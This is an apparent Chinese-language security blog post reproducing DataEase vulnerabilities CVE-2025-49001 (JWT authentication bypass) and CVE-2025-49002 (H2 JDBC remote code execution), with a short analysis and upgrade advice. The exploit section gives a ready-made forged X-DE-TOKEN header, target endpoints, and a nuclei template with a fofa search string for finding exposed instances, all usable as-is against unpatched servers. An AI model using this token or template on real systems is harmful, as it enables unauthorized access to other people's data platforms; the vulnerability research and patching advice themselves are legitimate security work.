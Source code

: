 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzI4MjkxNzY1NQ==&mid=2247486028&idx=3&sn=d961f6c041977816b00f5c5e7415af1a

#  【漏洞复现】Dataease JWT 认证绕过漏洞/远程代码执行（CVE-2025-49001/CVE-2025-49002）  
稻草人  玄武盾网络技术实验室   2025-06-26 01:00  
  
免责声明：本文仅供安全研究与学习之用，严禁用于非法用途，违者后果自负。  
##   
## 漏洞介绍  
  
DataEase 是一款开源的数据分析平台，提供丰富的数据可视化和分析功能，帮助用户轻松地进行数据探索和决策支持，CVE-2025-49001 是由于JWT校验机制错误导致攻击者可伪造JWT令牌绕过身份验证流程，CVE-2025-49002 是由于H2数据库模块没有严格过滤用户输入的JDBC连接参数，可使用大小写绕过补丁。攻击者可利用这些漏洞实现未授权代码执行，威胁用户数据和系统的安全。  
## 影响版本  
  
DataEase <= 2.10.8  
## 漏洞复现  
  
CVE-2025-49001   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKRsJ9YvJySbUjAYkdlh4U6WKf8Acc3ytA5FcBYFCXJhTVNcuqOKVUOX7lGjbnCTOp7TDOFd3o3Qw/640?wx_fmt=png&from=appmsg "")  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  

```
X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8
```

  
  
可以通过请求以下接口进行验证，无漏洞则会返回500或401  

```
/de2api/license/version
/de2api/user/info
/de2api/login/refresh
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKRsJ9YvJySbUjAYkdlh4U62bolhTaMuzCelQg0aHQmoSwL62qoIIjb5wBx6jIkbYyeDbeXfl44eA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKRsJ9YvJySbUjAYkdlh4U6uwicLKZEXzruTicDicrTc9iaEtwia0x9Gl02pCPNUuDLXIAxdK5zINdI5Ag/640?wx_fmt=png&from=appmsg "")  
##   
## 漏洞分析  
  
CVE-2025-49001   
  
通过 JWT 解密了 token，获取了 uid 和 oid 的值，并没有使用当前秘钥来验证 token 的合法性，可以使用任意secret来伪造一个符合以下格式的JWT token  

```
{
  &#34;uid&#34;: 1,
  &#34;oid&#34;: 1
}
```

  
  
具体分析见原文  

```
https://github.com/dataease/dataease/security/advisories/GHSA-xx2m-gmwg-mf3r
```

  
  
CVE-2025-49002  

```
https://github.com/dataease/dataease/security/advisories/GHSA-999m-jv2p-5h34
```

  
## nuclei脚本  

```
id: dataease-cve-2025-49001


info:
  name: dataease-cve-2025-49001-bypass
  author: PokerSec
  severity: high
  metadata:
    fofa-search: title=&#34;DataEase&#34;


requests:
  - raw:
      - |-
        GET /de2api/user/info HTTP/1.1
        Host: {{Hostname}}
        Accept: application/json, text/plain, */*
        out_auth_platform: default
        X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8


    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '&#34;id&#34;:&#34;1&#34;'
          - 'oid'
          - 'name'
        condition: and
      - type: status
        status:
          - 200
```

##   
## 修复意见  
  
更新至最新安全版本，目前官方已有可更新版本DataEase >= 2.10.10  
  
官方补丁下载地址：  
  
https://github.com/dataease/dataease/releases/tag/v2.10.10  
  
https://dataease.io/  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/UM0M1icqlo0knIjq7rj7rsX0r4Rf2CDQylx0IjMfpPM93icE9AGx28bqwDRau5EkcWpK6WBAG5zGDS41wkfcvJiaA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
声明：  
技术文章均收集于互联网，仅作为本人学习、记录使用。  
侵权删  
！  
！  
！  
  
  
  

